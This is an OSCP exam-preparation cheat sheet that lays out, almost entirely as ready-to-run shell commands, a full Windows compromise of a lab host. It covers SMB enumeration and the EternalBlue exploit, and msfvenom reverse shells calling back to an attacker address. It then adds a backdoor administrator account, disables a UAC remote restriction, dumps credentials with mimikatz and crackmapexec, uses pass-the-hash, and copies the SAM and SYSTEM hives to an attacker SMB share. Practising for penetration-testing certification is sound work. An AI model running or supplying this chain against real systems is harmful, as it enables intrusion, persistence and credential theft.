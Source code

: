 # OSCP Cheat Sheets Windows
Preparation for OSCP

## RECON

#### SMB
```Shell
nmap -Pn -sT -n --script smb-enum-shares.nse  10.10.10.40 -p 135,139,445
```
```Shell
smbclient -L 10.10.10.40 -N 
smbclient //10.10.10.40/Users -N
```
```Shell
smbmap -H 10.10.10.40 -u 'null'
```
```Shell
mkdir smbFolder
mount -t cifs //10.10.10.40/Users /tmp/smbFolder -o username=null,password=null,domain=WORKGROUP,rw
```
```Shell
smbcacls //10.10.10.40/Users Admin/Desktop -N
smbcacls //10.10.10.40/Users Admin/Desktop -N | grep Everyone
```

## Vulnerability Discovery

```Shell
nmap -Pn -sT -n --script "vuln and safe" 10.10.10.40 -p 135,139,445
```

```Shell
searchsploit eternalblue
searchsploit -x 42315
searchsploit -m 42315
```

## Explotation

#### Eternalblue
```Shell
wget https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/42315.py -O mysmb.py
python 42315.py 10.10.10.40
```

```Shell
msfvenom -p windows/x64/shell_reverse_tcp -f exe -o exploit.exe EXITFUNC=thread LHOST=10.10.14.28 LPORT=4444
python 42315.py 10.10.10.40 samr exploit.exe 
```

```Shell
git clone https://github.com/3ndG4me/AutoBlue-MS17-010.git
python eternal_checker.py 10.10.10.40

./shell_prep.sh 
python eternalblue_exploit7.py 10.10.10.40 sc_x64.bin 

msfvenom -p windows/x64/shell_reverse_tcp -f raw -o sc_x64_msf.bin EXITFUNC=thread LHOST=10.10.14.28 LPORT=4444
python eternalblue_exploit7.py 10.10.10.40 sc_x64_msf.bin
```

## Post Explotation

#### Windows Users
```Shell
net users
net user admin admin /add
net localgroup administrators
net localgroup administrators admin /add
net localgroup "Remote Desktop Users" admin /add
```

#### Crackmapexec
```Shell
crackmapexec smb 10.10.10.40 -u 'admin' -p 'admin'
cmd /c reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f
crackmapexec smb 10.10.10.40 -u 'admin' -p 'admin' -x 'whoami'
```
```Shell
crackmapexec smb 10.10.10.40 -u 'admin' -p 'admin' --sam
crackmapexec smb 10.10.10.40 -u 'Administrator' -H cdf51b162460b7d5bc898f493751a0cc -x 'whoami'
```
```Shell
crackmapexec smb 10.10.10.40 -u 'Administrator' -H cdf51b162460b7d5bc898f493751a0cc -M mimikatz -o COMMAND="privilege::debug token::elevate sekurlsa::logonpasswords exit"
```

#### Pass the hash
```Shell
pth-winexe -U WORKGROUP/Administrator%aad3b435b51404eeaad3b435b51404ee:cdf51b162460b7d5bc898f493751a0cc //10.10.10.40 cmd.exe
cat /root/.cme/logs/Mimikatz-10.10.10.40-2021-04-28_212350.log
```

#### Windows SAM
```Shell
reg save HKLM\SAM sam.backup
reg save HKLM\SYSTEM system.backup

impacket-smbserver smbfolder $(pwd)
copy sam.backup \\10.10.14.28\smbfolder\sam
copy system.backup \\10.10.14.28\smbfolder\system

pwdump system sam 
```

#### Windows psexec
```Shell
python /opt/impacket/examples/psexec.py WORKGROUP/admin:admin\@10.10.10.40
```
